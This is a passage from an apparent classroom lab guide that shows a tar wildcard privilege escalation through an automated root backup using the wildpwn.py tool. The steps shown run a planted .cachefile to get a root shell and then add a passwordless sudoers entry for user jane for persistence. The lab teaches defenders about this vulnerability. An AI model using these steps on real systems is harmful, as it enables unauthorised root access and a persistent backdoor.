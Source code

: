     - Wait for two minutes and the automated backup should run with root privileges. Emphasize that it is a common pattern for attackers to attack by planting malware and waiting for automated backups to run a command as `root`.

    - The automated backup should have archived `jane`'s home directory, including the `~/Documents` directory. List the files in this directory to demonstrate that the `.webscript` got executed.

        ```
        ls -al ~/Documents/ExploitTar
        10236808   0 -rw-r--r--   1 jane  jane     4.0K Dec 19 12:53 .cache

        ls -al ~/Documents/ExploitTar/.cache
        10236808   0 -rw-r--r--   1 jane  jane     12.0K Dec 19 12:53 .cachefile
        ```

    - Running the backup created the directory `.cache/.cachefile`.

6. Run `.cachefile` to escalate to `root` privileges.

    ```
    cd ~/Documents/ExploitTar/.cache
    ./.cachefile
    id
    uid=0(root) gid=0(root) groups=0(root),1013(jane)
    ```

7. Now that we have `root` privileges, we can do anything you want. Particularly, we can give `jane` the ability to run commands with `sudo` by updating `/etc/sudoers`.

    ```
    `visudo`

     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     jane    ALL=(ALL) NOPASSWD:ALL
    ```

8. Drop out of your `root` shell by pressing `Ctrl + D`. As `jane`, prove that you now have the ability to run commands with `sudo`.

   - As `jane`, run `sudo -l`:

    ```
    user jane may run the following commands on <hostname>:
    (ALL) NOPASSWD: ALL
    ```

  - Explain that this demonstrates how to use the `wildpwn.py` tool to escalate to `root` and do (persistent) damage.

Emphasize that the takeaway points from this exercise are not how automated backups works, but rather:

- The `tar` command is vulnerable to a privilege escalation `wildcard attack`.

- Automated backups are often abused by attackers to leverage such vulnerabilities.
